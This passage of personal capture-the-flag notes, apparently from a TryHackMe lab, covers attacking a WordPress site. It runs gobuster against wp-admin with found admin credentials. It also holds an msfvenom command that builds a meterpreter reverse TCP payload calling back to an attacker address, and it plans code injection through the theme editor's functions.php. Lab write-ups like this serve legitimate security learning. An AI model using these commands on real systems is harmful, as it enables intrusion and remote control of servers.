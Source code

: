 - found it!!

![Pasted image 20251008154706.png](thm_pics/Pasted%20image%2020251008154706.png)

- theres another user called willam, lets keep this in mind
- now, i wanna perform gobuster in admin's site
- Command : `gobuster dir -u http://10.10.56.148/blog/wp-admin/ -w /usr/share/wordlists/dirb/common.txt -U admin -P 'my2boys'` 

![Pasted image 20251008155506.png](thm_pics/Pasted%20image%2020251008155506.png)

- seems like i cannot access these files even as admin, maybe they belong to root
### Exploitation phase
How to get a shell? 
- create a reverse tcp shell using msfvenom : `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.23.125.244 LPORT=4444 -f elf > meterpreter_payload.elf`
In wordpress,
- 1st way : Plugin / Theme upload : In WP admin: **Plugins → Add New → Upload Plugin*- (theres no options to upload plugin)
- 2nd way : Theme editor
	- **Appearance → Theme Editor**:
	- select "functions.php" at the right bar

![Pasted image 20251008161222.png](thm_pics/Pasted%20image%2020251008161222.png)

